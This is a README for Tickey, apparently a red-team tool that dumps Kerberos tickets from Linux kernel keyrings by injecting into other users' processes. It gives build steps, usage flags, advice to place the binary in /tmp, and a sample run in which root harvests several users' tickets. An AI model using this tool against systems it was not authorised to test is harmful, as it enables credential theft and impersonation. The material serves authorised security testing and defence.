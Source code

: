 # Tickey
Tool to extract Kerberos tickets from Linux kernel keys. Developed by [@Zer1t0](https://github.com/Zer1t0).

Based in the paper [Kerberos Credential Thievery (GNU/Linux)](https://www.delaat.net/rp/2016-2017/p97/report.pdf).

## Building
```
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
```

After that, binary should be in `dist/Release/GNU-Linux/`.

## Execution

Arguments:
* -i => To perform process injection if it is needed
* -s => To not print in output (for injection)

**Important**: when injects in another process, tickey performs an `execve` syscall which invocates its own binary from the context of another user. Therefore, to perform a successful injection, the binary must be in a folder which all users have access, like /tmp.


Execution example: 
```
[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```


## License
This program is free software: you can redistribute it and/or modify it under the terms of the GNU Affero General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU Affero General Public License for more details.

You should have received a copy of the GNU Affero General Public License along with this program. If not, see <https://www.gnu.org/licenses/>.

## Acknowledgment

Thanks to [@TheXC3LL](https://twitter.com/TheXC3LL) for his support with the binary injection.
